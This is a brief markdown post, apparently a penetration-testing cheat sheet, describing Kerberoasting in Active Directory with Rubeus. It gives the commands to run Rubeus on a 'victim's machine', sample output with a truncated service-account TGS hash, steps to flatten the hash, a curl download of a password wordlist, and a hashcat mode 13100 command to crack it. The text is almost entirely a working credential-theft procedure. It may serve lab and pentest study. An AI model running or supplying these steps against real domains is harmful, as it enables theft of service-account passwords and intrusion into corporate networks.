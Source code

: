 ```yaml
---
layout: post
title: Kerberoasting - Rubeus
description: Kerberoasting - Rubeus
summary: Kerberoasting - Rubeus
tags: [windows,ad,kerberos]
minute: 1
---
```

* Launch rubeus on victim’s machine

```batch
Rubeus.exe kerberoast
```

* Wait for some hash to appear. Here is a truncated example.

```batch
[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local...
```

* Convert the hash block into single line.

```bash
cat hash_block | tr -d '\n' > hash_single_line
```

* Get a modified rockyou [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt) (or use the whole rockyou inside `/usr/share/wordlists`)

```bash
curl -OL https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.tx
```

* Crack using hashcat.

```bash
hashcat -m 13100 -a 0 hash_single_line Pass.txt
```
